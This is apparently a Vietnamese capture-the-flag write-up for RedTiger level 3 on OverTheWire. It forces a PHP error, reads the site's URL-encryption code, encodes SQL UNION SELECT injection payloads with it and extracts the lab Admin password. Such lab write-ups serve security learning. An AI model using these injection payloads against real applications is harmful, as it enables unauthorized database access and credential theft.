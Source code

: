 http://redtiger.labs.overthewire.org/level3.php
```sh
Target: Get the password of the user Admin.
Hint: Try to get an error. Tablename: level3_users


Show userdetails: 
TheCow
Admin
```

- click vô thử `TheCow` và `Admin` thì được chuyển đến trang có dạng `level3.php?usr=MDQyMjExMDE0MTgyMTQw`. Có thể thấy `usr=` biểu thì WHERE usr= và tên username đã bị mã hõa `Admin thành MDQyMjExMDE0MTgyMTQw`

- Giờ ta phải xem nó được xử lí như thế nào khi mã hóa bằng cách thêm `[]` sau usr: `level3.php?usr[]=MDQyMjExMDE0MTgyMTQw`

<img src="http://i.imgur.com/HtPGLes.jpg">

Thông báo lỗi xuất hiện `Warning: preg_match() expects parameter 2 to be string, array given in /var/www/html/hackit/urlcrypt.inc on line 25`

- Dựa vào đó ta truy cập vào `http://redtiger.labs.overthewire.org/urlcrypt.inc` để xem nó đã mã hóa như thế nào. Chúng ta được 1 trang mới chứa code PHP để mã hóa cũng như giải mã

- Bạn có thể đọc code để hiểu quá trình mã hóa. Ở đây mình chỉ lấy đoạn code mà thưck hiện quá trình **encode** thôi. Sử dụng http://www.writephponline.com/ để chạy code

```sh
function encrypt($str)
	{
		$cryptedstr = "";
		srand(3284724);
		for ($i =0; $i < strlen($str); $i++)
		{
			$temp = ord(substr($str,$i,1)) ^ rand(0, 255);
			
			while(strlen($temp)<3)
			{
				$temp = "0".$temp;
			}
			$cryptedstr .= $temp. "";
		}
		return base64_encode($cryptedstr);
	}
  ```
  
  - Tiếp theo thực hiện các bước check lỗi sql injection:
  
  1. xem số cột bị lỗi: `' UNION SELECT 1,2,3,4,5,6,7#` . Sử dụng dấu`' và #` vì để bỏ qua việc check where và comment đây là đoạn HASH vì chúng ta mã hóa mà
  
  <img src="http://i.imgur.com/UlAjGNC.jpg">
  
  2. Vậy là ở đây có 5 cột bị lỗi: `username cột 2, first name cột 6,name cột 7,icq cột 5, email cột 4`
  
  - Chúng ta sẽ lần lượt khai thác thông tin lỗi từ các cột này
  
  `' UNION SELECT 1,username,3,password,5,6,7 FROM level3_users WHERE username='Admin'#`
  
  <img src="http://i.imgur.com/0Pe47fY.jpg">
  
  Username: 	Admin
  Password:   thisisaverysecurepasswordEEE5rt
